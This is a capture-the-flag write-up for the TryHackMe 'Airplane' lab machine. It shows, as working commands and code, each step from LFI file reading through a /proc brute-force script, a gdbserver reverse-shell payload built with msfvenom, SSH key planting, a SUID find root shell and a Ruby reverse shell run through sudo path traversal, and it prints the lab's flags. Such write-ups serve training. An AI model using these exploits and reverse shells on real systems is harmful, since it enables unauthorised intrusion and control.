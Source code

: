 #airplane #thm #medium #LFI #/proc #gdbserver #SUID #find

#### Ports
-> commands : 
	`rustscan -a 10.10.107.188`
	`nmap -p 22,6048,8000 10.10.107.188 -T4 -A -oN nmap.txt`
```
PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack
6048/tcp open  x11      syn-ack
8000/tcp open  http-alt syn-ack
```

#### Directory Enumeration
-> commands :
	`feroxbuster -u http://10.10.107.188:8000/ -x txt,php,html,zip,pcap`
```
http://airplane.thm:8000/?page=index.html
```
-> found this only , not other dirs.

#### LFI
-> URL : http://airplane.thm:8000/?page=index.html
-> Payload : http://airplane.thm:8000/?page=/../../../../etc/passwd
-> got */etc/passwd* file
```
carlos:x:1000:1000:carlos,,,:/home/carlos:/bin/bash
hudson:x:1001:1001::/home/hudson:/bin/bash
```

-> tried accessing a lot of files but no results

##### /proc part
-> then got introduced with a new concept .. 
	*/proc/< proc number>/cmdline* -> file
-> we can access any running process if we know the process number 
-> so we can run a python script to generate 1 to n numbers and send a get request , if we get the 200 on a perticular request it means that process is running , we might get somthing in processes , if we are unable to find nothing

-> python script {taken it from google}
```
import requests  
  
def read_file(base_url, path):  
    file_url = f"{base_url}/?page=../../../../{path}"  
    try:  
        response = requests.get(file_url)  
        if response.status_code == 200:  
            return response.text  
        else:  
            return None  
    except Exception as e:  
        print(f"Error reading {path}: {e}")  
        return None  
  
def find_pid_by_port(base_url, port):  
    for pid in range(1, 5000):  # Adjust the range based on the expected number of PIDs  
        cmdline_path = f"proc/{pid}/cmdline"  
        cmdline = read_file(base_url, cmdline_path)  
        if cmdline:  
            if str(port) in cmdline:  
                return pid  
    return None  
  
# Example usage  
base_url = 'http://airplane.thm:8000'  
port = '6048'  
pid = find_pid_by_port(base_url, port)  
if pid:  
    cmdline = read_file(base_url, f"proc/{pid}/cmdline")  
    status = read_file(base_url, f"proc/{pid}/status")  
    print(f'PID using port {port}: {pid}')  
    print(f'Command line: {cmdline}')  
    print(f'Status: {status}')  
else:  
    print(f'No process found using port {port}')
```

-> found a process name ->
	-> /proc/530/cmdline 
	-> it was running `/usr/bin/gdbserver0.0.0.0:6048airplane`

#### Gaining Shell as hudson
##### GdbServer Vulnerability 

-> enumerated -> found hacktrickz article 
```
# Trick shared by @B1n4rySh4d0w
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.17.127.143 LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

# Set remote debuger target
target extended-remote 10.10.82.135:6048

# Upload elf file
remote put binary.elf /tmp/binary.elf

# Set remote executable file
set remote exec-file /tmp/binary.elf

# Execute reverse shell executable
run

# You should get your reverse-shell
```

ran these commands and got reverse shell !!

#### Getting better Shell

-> `ssh-keygen -t rsa -f rghx -b 4096`
-> got two files rghx & rghx.pub 
-> copied rghx.pub in ~/.ssh/authorized_keys *{in victim's shell}*
-> `chmod 600 rghx`
-> `ssh -i rghx hudson@airplane.thm`

#### Post Exploitation Enumeration

-> linpeas
-> `/usr/bin/find` -> SUID set for carlos user

#### Shell as Carlos

-> `/usr/bin/find /home/carlos -name "user.txt" -exec cat /home/carlos/user.txt \;` -> to read user.txt
-> `/usr/bin/find /home/carlos -name "user.txt" -exec /bin/bash -p \;`

-> got perms to access & edit carlos files
-> did the same ssh generation and replacing ssh keys to 
	/home/carlos/.ssh/authorized_keys
-> `chmod 644 authorized_keys` --> important step

-> `ssh -i id_rsa carlos@IP`

###### user.txt : ***eebfca2ca5a2b8a56c46c781aeea7562***

#### Privilege Escalations

`sudo -l`
```
(ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```

-> here , after thinking for a minute i though to do path escaping 
-> so i wrote a ruby reverse shell {thankx to chat GPT}

`shell.rb`
```ruby
require 'socket'

# Exit if the process is a child
exit if fork

# Create a TCP socket connection to the specified address and port
c = TCPSocket.new("10.17.127.143", "9002")

# Continuously read commands from the socket
loop do
  # Read a line from the socket and remove the trailing newline character
  command = c.gets.chomp
  
  # Exit if the command is "exit"
  break if command == "exit"
  
  # Change directory if the command starts with "cd"
  if command =~ /cd (.+)/i
    begin
      Dir.chdir($1)
    rescue => e
      c.puts "failed to change directory: #{e.message}"
    end
  else
    # Execute the command and send the output to the socket
    begin
      IO.popen(command, 'r') do |io|
        c.print io.read
      end
    rescue => e
      c.puts "failed: #{e.message}"
    end
  end
end
```

-> put it in /tmp/shell.rb
-> `sudo /usr/bin/ruby /root/../tmp/shell.rb`
-> Boom!! Got reverse Shell as root !

###### root.txt : ***190dcbeb688ce5fe029f26a1e5fce002***
---------

